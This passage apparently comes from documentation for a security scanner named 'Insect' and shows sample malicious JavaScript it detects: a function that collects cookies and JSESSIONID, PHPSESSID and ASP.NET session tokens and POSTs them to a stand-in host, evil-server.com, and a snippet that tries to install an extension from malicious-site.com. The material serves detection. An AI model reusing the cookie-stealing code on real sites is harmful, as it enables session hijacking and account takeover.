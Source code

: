 ```javascript
function hijackSession() {
    // Steal all cookies
    var cookies = document.cookie;
    
    // Look for specific session tokens
    var sessionToken = getCookie("JSESSIONID");
    var phpSession = getCookie("PHPSESSID");
    var aspSession = getCookie("ASP.NET_SessionId");
    
    // Send to attacker server
    fetch("http://evil-server.com/collect", {
        method: "POST",
        body: JSON.stringify({
            cookies: cookies,
            tokens: {
                jsession: sessionToken,
                php: phpSession,
                asp: aspSession
            }
        })
    });
}
```

**What Insect Detects:**
- Identifies suspicious cookie access via `document.cookie`
- Flags attempts to extract common session token formats
- Detects patterns consistent with session hijacking attacks

**Why This is Critical:**
- Session tokens allow attackers to impersonate authenticated users
- Can lead to account takeover without knowing passwords
- Enables unauthorized access to user accounts and data

### Browser Extension Manipulation

**Vulnerable Code:**

```javascript
// Malicious extension injection
function injectMaliciousExtension() {
    // Access Chrome extension APIs
    if (chrome.extension) {
        chrome.extension.sendMessage({type: "steal_data"});
    }
    
    // Install malicious extension programmatically
    chrome.management.install({
        url: "http://malicious-site.com/evil-extension.crx"
    });
}
```
